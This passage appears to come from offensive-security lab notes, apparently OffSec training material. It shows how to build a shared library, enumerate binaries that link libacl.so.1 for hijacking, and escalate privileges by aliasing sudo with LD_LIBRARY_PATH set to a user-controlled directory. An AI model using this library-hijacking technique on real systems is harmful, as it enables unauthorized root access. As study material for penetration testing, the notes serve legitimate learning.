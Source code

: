 ```bash
# Create the shared library
map_files=$(ls ${VERSION_SCRIPT_BASE}_*.map 2>/dev/null)
if [[ -n $map_files ]]; then
    echo "Linking with version scripts: $map_files"
    gcc -shared -Wl,$(for map in $map_files; do echo -n "--version-script=$map,"; done | sed 's/,$//') -o $OUTPUT_LIB mylib.o
else
    gcc -shared -o $OUTPUT_LIB mylib.o
fi

# Clean up object file
rm mylib.o

echo "Shared library created: $OUTPUT_LIB"

```

#### Try and find a .so file to use to hijack an application other than top

-  enumerate `/lib/x86_64-linux-gnu/libacl.so.1`
```bash
bash search.sh /lib/x86_64-linux-gnu/libacl.so.1 /usr/bin
Searching for binaries that use /lib/x86_64-linux-gnu/libacl.so.1 in /usr/bin...
Found: /usr/bin/smbclient
Found: /usr/bin/systemd-resolve
Found: /usr/bin/net
Found: /usr/bin/systemd-analyze
Found: /usr/bin/systemd-cgtop
Found: /usr/bin/systemd-path
Found: /usr/bin/systemd-socket-activate
Found: /usr/bin/busctl
Found: /usr/bin/systemd-delta
Found: /usr/bin/vim.tiny
Found: /usr/bin/install
Found: /usr/bin/systemd-stdio-bridge
Found: /usr/bin/hostnamectl
Found: /usr/bin/systemd-cat
Found: /usr/bin/systemd-mount
Found: /usr/bin/rsync
Found: /usr/bin/systemd-run
Found: /usr/bin/systemd-detect-virt
Found: /usr/bin/systemd-cgls
Found: /usr/bin/localectl
Found: /usr/bin/timedatectl
Found: /usr/bin/bootctl
```

#### Escalation of privileges using LD_LIBRARY_PATH and sudo

Add `alias` to `.bashrc`
```bash
alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib"
```
Then `source .bashrc`
